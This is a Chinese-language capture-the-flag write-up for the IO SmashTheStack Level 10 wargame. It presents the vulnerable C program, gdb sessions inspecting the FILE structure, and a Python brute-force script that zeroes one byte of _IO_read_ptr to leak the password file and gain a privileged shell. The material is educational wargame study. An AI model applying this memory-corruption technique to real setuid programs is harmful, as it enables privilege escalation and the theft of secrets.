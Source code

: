 ```yaml
---
title: IO SmathTheStack Level 10
author: kelwin
layout: post
permalink: /io-smaththestack-level-10/
categories:
  - wargame
  - writeup
---
```

IO SmathTheStack Level 10的程序代码如下：

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    
    int main(int argc, char **argv){
            FILE *fp = fopen("/levels/level10_alt.pass", "r");
            struct {char pass[20], msg_err[20]} pwfile = {{0}};
            char ptr[0];
    
            if(!fp || argc != 2)
                    return -1;
    
            fread(pwfile.pass, 1, 20, fp);
        pwfile.pass[19] = 0;
            ptr[atoi(argv[1])] = 0;
            fread(pwfile.msg_err, 1, 19, fp);
            fclose(fp);
    
            if(!strcmp(pwfile.pass, argv[1]))
                    execl("/bin/sh", "sh", 0);
            else
                    puts(pwfile.msg_err);
    
            return 0;
    }
    

阅读代码发现，输入的argv[1]被atoi函数转成整数，加到ptr这个栈上的指针上，然后在对应的字节上写入0，也就是说我们只能通过输入参数将进程内存空间中某一个字节置为0。

一开始我一直在想办法绕过strcmp函数，进入execl拿到shell，百思不得其解；后来突然关注到了后面的else语句，想到可以利用puts语句来输出pwfile.pass，而这个可以通过重定位FILE对象*fp里面的文件读写指针来实现，因为写入字节0再第二次fread操作之前。

于是自己在BT5上编译程序验证这个想法的可行性，带上-g参数带符号表进行gdb调试：

    gcc -g level10.c -o level10
    

在第一个fread处设上断点，然后查看*fp结构，注意到这个FILE对象是分配在堆上的：

    Breakpoint 1, 0x08048616 in main (argc=2, argv=0xbffff5d4) at level10.c:14
    14          fread(pwfile.pass, 1, 20, fp);
    (gdb) p *fp
    $1 = {_flags = -72539000, _IO_read_ptr = 0x0, _IO_read_end = 0x0, 
      _IO_read_base = 0x0, _IO_write_base = 0x0, _IO_write_ptr = 0x0, 
      _IO_write_end = 0x0, _IO_buf_base = 0x0, _IO_buf_end = 0x0, 
      _IO_save_base = 0x0, _IO_backup_base = 0x0, _IO_save_end = 0x0, 
      _markers = 0x0, _chain = 0xb7fca580, _fileno = 5, _flags2 = 0, 
      _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', _shortbuf = "", 
      _lock = 0x804b0a0, _offset = -1, __pad1 = 0x0, __pad2 = 0x804b0ac, 
      __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = 0, 
      _unused2 = '\000' <repeats 39 times>}
    

执行完第一次fread后再次查看*fp：

    (gdb) ni
    15      pwfile.pass[19] = 0;
    (gdb) p *fp
    $2 = {_flags = -72539000, 
      _IO_read_ptr = 0xb7fdf014, 
      _IO_read_base = 0xb7fdf000, 
      _IO_write_base = 0xb7fdf000, 
      _IO_write_ptr = 0xb7fdf000, 
      _IO_write_end = 0xb7fdf000, 
      _IO_buf_base = 0xb7fdf000, 
      _IO_buf_end = 0xb7fe0000 "d", _IO_save_base = 0x0, _IO_backup_base = 0x0, 
      _IO_save_end = 0x0, _markers = 0x0, _chain = 0xb7fca580, _fileno = 5, 
      _flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0 '\000', 
      _shortbuf = "", _lock = 0x804b0a0, _offset = -1, __pad1 = 0x0, 
      __pad2 = 0x804b0ac, __pad3 = 0x0, __pad4 = 0x0, __pad5 = 0, _mode = -1, 
      _unused2 = '\000' <repeats 39 times>}
    

这里注意到&#95;IO&#95;read&#95;ptr已经有了数值，相比较&#95;IO&#95;read&#95;base有了0&#215;14字节的偏移，因为第一次读取了0&#215;14字节。我们只需要将&#95;IO&#95;read&#95;ptr的最低一个字节覆盖为0，这样下一次fread就又从头开始读了。查看fp->&#95;IO&#95;read&#95;ptr所在地址和ptr地址：

    (gdb) p &fp->_IO_read_ptr
    $3 = (char **) 0x804b00c
    (gdb) p ptr
    $4 = 0xbffff4e4
    

可以使用gdb的set命令验证想法的正确性，继续执行会发现输出的确实是文件最开始的字符串：

    (gdb) set fp->_IO_read_ptr=0xb7fdf000
    

现在如果我们要利用参数来覆盖&#95;IO&#95;read&#95;base的最低字节，只需要计算便宜&fp->&#95;IO&#95;read&#95;ptr-ptr即可，在BT5中计算到0x804b00c-0xbffff4e4=1208269608，但是在远程的主机上这个数值肯定不同，而且由于关闭了ASLR，这个数值是固定的，因此我们可以对其附近的范围进行穷举，在/tmp目录中新建一个目录，写入如下python脚本：

    #!/usr/bin/env python
    import subprocess
    import sys
    
    start = 1208270000
    end = 1208280000
    for i in range(start, end):
      try:
        output = subprocess.check_call(["/levels//level10", str(i)])
      except Exception:
        continue
    

很快就能穷举完，在一堆ACCESS DENIED&#8230;之中你会发现一个key，拿到这个key之后再作为参数传入level10中运行即可得到euid为level10的shell。值得注意的是key中有两个感叹号，shell中默认代表上一条指令，因此需要加反斜杠&#8217;\'进行转义。